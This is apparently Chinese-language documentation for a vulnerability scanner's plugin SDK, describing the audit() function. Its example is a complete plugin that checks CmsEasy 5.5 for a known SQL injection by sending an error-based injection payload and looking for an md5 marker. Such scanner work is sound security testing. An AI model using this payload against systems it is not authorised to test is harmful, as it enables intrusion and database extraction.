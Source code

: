 # audit
---

审计函数，该方法为插件继 assign 函数后被调用的函数，在 assign 中判断当前扫描服务与该插件对应的服务相等后，便会调用该插件的 audit 函数。**插件中必须声明此方法**。如果插件中逻辑较为复杂，开发者可自行封装方法，并在 audit 中调用执行即可。


```
audit(arg)
```

### 参数

* **arg**

 该插件所对应的 Service 共同约定的参数，一般为一个经过过滤的链接，具体参数格式可参考 assign 函数中 arg 参数。
 

### 返回值

无。如果检测到存在漏洞，则直接使用 security_info 等报告方法直接输出漏洞报告。


### 范例

以下为 [CmsEasy 5.5 UTF-8 20140802/celive/live/header.php SQL注入漏洞](http://wooyun.org/bugs/wooyun-2010-070827) 的扫描插件。该漏洞为报错注入，如果 Payload 执行成功，则会在返回页面中显示执行成功的 md5(233) 的值。

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# __author__ = 'Medici.Yan'
# 引入需要用到的标准库
import urllib

# assign 验证任务的指纹
def assign(service, arg):
    if service == fingerprint.cmseasy: # 指纹为 cmseasy
        return True, arg  # 返回类型为 tuple

# audit 审计函数，通过指纹验证后调用该函数
def audit(arg):
    # 此插件中 arg 为提交的网址
    # 构造要提交数据的目标 URL
    target = arg + '/celive/live/header.php'
    # 此漏洞要发送的 POST 数据(Payload)
    post_data = {
        'xajax': 'LiveMessage',
        'xajaxargs[0][name]': "1',(SELECT 1 FROM (select count(*),concat("
                              "floor(rand(0)*2),(select md5(233)))a from "
                              "information_schema.tables group by a)b),"
                              "'','','','1','127.0.0.1','2') #"
    }
    # 通过 hackhttp 发送 Payload 到目标
    code, head, body, errcode, redirect_url = hackhttp.http(
        target, post=urllib.urlencode(post_data))
    # 验证是否存在漏洞
    if 'e165421110ba03099a1c0393373c5b43' in body:
        # 存在漏洞则输出目标 URL
        security_hole(target)

# 本地测试时需要加 main 用于调用
if __name__ == '__main__':
    # 导入 sdk
    from dummy import *
    # 调用 audit 与 assign
    audit(assign(fingerprint.cmseasy, 'http://localhost/cmseasy/')[1])

```